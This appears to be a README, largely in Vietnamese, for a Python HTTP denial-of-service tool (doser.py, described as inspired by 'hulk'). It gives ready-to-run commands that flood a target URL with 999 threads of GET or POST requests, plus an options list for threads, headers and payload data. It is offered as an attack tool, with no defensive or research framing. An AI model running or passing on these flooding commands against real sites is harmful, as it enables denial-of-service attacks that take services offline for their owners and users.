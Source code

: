 # lmao.py
Công cụ DoS cho các yêu cầu HTTP (lấy cảm hứng từ hulk nhưng có nhiều chức năng hơn) được viết bằng Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Ví Dụ
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Cách sử dụng
  Nếu bạn chọn <g> thì sẽ là : python doser.py -t 999 -g 'URL'
  Nếu bạn chọn <p> thì sẽ là : python doser.py -t 999 -p 'URL'
  Nếu bạn chọn <d> thì sẽ là : python doser.py -t 999 -d 'URL'

Các tùy chọn :

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# BY:
Duong Quang Truong :)
